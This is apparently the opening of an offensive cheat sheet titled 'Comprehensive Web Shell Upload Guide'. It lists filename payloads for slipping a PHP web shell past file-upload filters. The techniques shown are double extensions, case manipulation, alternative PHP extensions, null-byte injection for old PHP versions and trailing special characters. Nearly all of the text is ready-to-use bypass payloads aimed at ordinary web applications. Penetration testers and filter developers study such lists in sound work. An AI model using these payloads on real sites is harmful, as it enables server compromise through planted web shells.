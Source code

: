 # COMPREHENSIVE WEB SHELL UPLOAD GUIDE

## 1. FILE UPLOAD BYPASS TECHNIQUES

### 1.1 Extension Bypass Methods

#### Double Extension
```
shell.php.jpg
shell.php.png
shell.php.gif
shell.jpg.php
test.php.test
```

#### Case Manipulation
```
shell.PHp
shell.PhP
shell.pHp
sHell.php
SHELL.PHP
```

#### Alternative PHP Extensions
```
shell.phtml
shell.php3
shell.php4
shell.php5
shell.php7
shell.phar
shell.inc
```

#### Null Byte Injection (PHP < 5.3.4)
```
shell.php%00.jpg
shell.php\x00.jpg
shell.jpg%00.php
```

#### Special Characters
```
shell.php.
shell.php(space)
shell.php:
shell.php;
shell.php/
shell.php\
```
